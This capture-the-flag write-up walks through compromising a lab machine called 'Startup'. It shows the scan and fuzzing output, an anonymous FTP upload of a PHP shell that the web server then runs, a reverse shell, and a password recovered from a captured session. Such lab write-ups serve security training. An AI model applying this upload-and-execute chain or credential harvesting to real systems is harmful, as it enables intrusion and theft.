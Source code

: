 # Startup
Abuse traditional vulnerabilities via untraditional means.

---

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

---

## Resolution

Let's start with a version and script scan against the target machine
```
$ sudo nmap -sV -sC <machine_ip> -Pn -n

Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-26 22:53 CET
Nmap scan report for <machine_ip>
Host is up (0.038s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to <machine_ip>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The default `nmap` scripts were able to connect anonymously to the FTP server.
We can connect and `get` the files there.
```
$ ftp anonymous@<machine_ip>

Connected to <machine_ip>.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||34705|)
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

Content of notice.txt
```
$ cat notice.txt
 
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

The meme they're talking about is `important.jpg`:
![important](https://github.com/elomarii/CTF_4_DAY/assets/106914699/9b8c7cb6-ff1b-491c-98d3-14e77a032c67)

Web app fuzzing:
```
$ ffuf -w ~/Downloads/common.txt:FUZZ -u http://<machine_ip>/FUZZ 

<...snip...>
files                   [Status: 301, Size: 310, Words: 20, Lines: 10]
```

The `/files` path allows us to access the files on the FTP server.
This means that we can upload our shell to the server and then include it from the web app to achieve RCE.
Note that uploading the file to the main directory will not succeed. This is possible, however, in the `ftp` folder.

```
ftp> put shell.php
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||21801|)
553 Could not create file.

ftp> cd ftp
250 Directory successfully changed.

ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||22501|)
150 Ok to send data.
100% |*************************************************|   732        9.06 MiB/s    00:00 ETA
226 Transfer complete.
732 bytes sent in 00:00 (8.78 KiB/s)
```

You can use whatever php script you like to get a reverse shell back to your machine.\
Now that we have access to the machine, we find the recipe in the root directory:
```
www-data@startup:/$ cat recipe.txt

Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was <flag>.
```

Navigating to the home directory, we found the home folder of the user *lennie* but we don't have permission to access it.
Back to the root folder, we notice a suspicious folder `incidents` containing a suspicious `pcap` file:
```
www-data@startup:/incidents$ ls -l

-rwxr-xr-x 1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```

To get this file, we can copy it to the location of our FTP server and then download it on our local machine.
```
www-data@startup:/$ cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/ec9272e5-6970-440f-b838-88c0d1db05d8)


Opening the capture in Wireshark and looking at the statistics, we notice that the before-last communication is the one that produces most of the traffic.
We apply the IP addresses as filters and then we follow the TCP stream to see what has been exchanged in the communication.

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/a9ed5665-1058-4c64-aac2-fd3c151b4659)

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/b6ac0d9e-6c73-4e73-a9d7-94bccb69b2ff)

The capture catches a connection of a user *vagrant* using a reverse shell the same way we did to get access to the machine. *vagrant* tried to access *lennie*'s home directory unsuccessfully and then tried to list files that can be run as root without the need for a password.
What's interesting is the password *vagrant* used in the process: `c4ntg3t3n0ughsp1c3`. This can be the password of someone else. Luckily this is the password of *lennie*.




